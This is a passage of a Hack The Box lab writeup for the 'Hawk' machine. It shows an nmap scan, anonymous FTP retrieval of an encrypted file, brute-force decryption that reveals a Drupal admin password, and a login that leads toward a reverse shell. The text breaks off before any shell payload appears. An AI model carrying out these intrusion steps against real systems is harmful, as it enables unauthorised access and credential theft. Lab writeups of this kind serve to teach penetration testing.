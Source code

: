 # Hawk writeups by Seyptoo.

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543657344-capture-du-2018-12-01-10-41-55.png)](https://hackthebox.eu/)

Informations
----
    Ip : 10.10.10.102       Created : mrh4sh
    Level : Easy            Base Points : 30
    
Nmap Scan
----
**We have 4 open ports, 21, 22, 80 and 8082.**
The 21 is for the FTP server, 22 for the SSH server, for the 80 HTTTP server (Drupal CMS) and finally for the 8082 for the 
database.

    root@Seyptoo:~/writeup/hawk# nmap -A -sT -p 1-65535 -oA nmap/hawk 10.10.10.102 -v
    Starting Nmap 7.01 ( https://nmap.org ) at 2018-12-01 10:50 CET
    NSE: Loaded 132 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating Ping Scan at 10:50
    Scanning 10.10.10.102 [4 ports]
    Completed Ping Scan at 10:50, 0.22s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 10:50
    Completed Parallel DNS resolution of 1 host. at 10:50, 0.00s elapsed
    Initiating Connect Scan at 10:50
    Scanning 10.10.10.102 [65535 ports]
    Discovered open port 21/tcp on 10.10.10.102
    Discovered open port 22/tcp on 10.10.10.102
    Discovered open port 80/tcp on 10.10.10.102
    Discovered open port 8082/tcp on 10.10.10.102
    
Check Version
----
[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543658376-capture-du-2018-12-01-10-59-23.png)](https://hackthebox.eu)
**We can see that we have 2 HTTP 
servers and an FTP server which we can 
access anonymously.**

FTP Access and transfert
----
**We have access to the FTP server, we can see that there is a hidden file and we transfer it to our physical machine.**
The file this name .drupal.txt.enc, it is probably a password to access the CMS drupal. :)

    root@Seyptoo:~/writeup/hawk# ftp 10.10.10.102
    Connected to 10.10.10.102.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.102:root): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
    226 Directory send OK.
    ftp> cd messages
    250 Directory successfully changed.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    226 Directory send OK.
    ftp> ls -alv
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 .
    drwxr-xr-x    3 ftp      ftp          4096 Jun 16 22:14 ..
    -rw-r--r--    1 ftp      ftp           240 Jun 16 22:21 .drupal.txt.enc
    226 Directory send OK.
    ftp> mget .drupal.txt.enc
    mget .drupal.txt.enc? 
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
    226 Transfer complete.
    240 bytes received in 0.00 secs (513.9802 kB/s)
    ftp> 

Cracking file
----
Everything is encrypted, we will use a tool to crack this file.

    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc 
    U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
    CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
    QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
    t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc|base64 -d
    Salted__kY ԓi-6�l���7Z����>{�$�p����5 �2[
    ���������8?�sW�j#T$3AG�,f	���Z\ja�>>G6
    �.��E���ÐV��V@�����ɗ���4�����@�w�xZ��Ni��PtF��`)
    root@Seyptoo:~/writeup/hawk#
The file is in base64, we are going to the tools on github.

    root@Seyptoo:~/writeup/hawk# git clone https://github.com/deltaclock/go-openssl-bruteforce.git
    Clonage dans 'go-openssl-bruteforce'...
    remote: Enumerating objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Dépaquetage des objets: 100% (31/31), fait.
    Vérification de la connectivité... fait.
    root@Seyptoo:~/writeup/hawk# cd go-openssl-bruteforce/
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ls
    brute.go  openssl-brute  README.md
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ./openssl-brute -file ../drupal.txt.enc
    Bruteforcing Started
    CRACKED!! Results in file [ result-aes256 ]
    --------------------------------------------------
    Found password [ friends ] using [ aes256 ] algorithm!!
    --------------------------------------------------
    Daniel,

    Following the password for the portal:

    "PencilKeyboardScanner123"

    Please let us know when the portal is ready.

    Kind Regards,

    IT department

    --------------------------------------------------
The password has been cracked successfully, so we can connect to the CMS (drupal).

Website reverse shell
----
Try a default user, like admin and it should do the trick to connect to the CMS.
> User : **admin**<br/>
Password : **PencilKeyboardScanner123**

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543661418-capture-du-2018-12-01-11-50-07.png)](https://hackthebox.eu)

Once you are logged in you have to go to modules, and activate **PHP filter**.
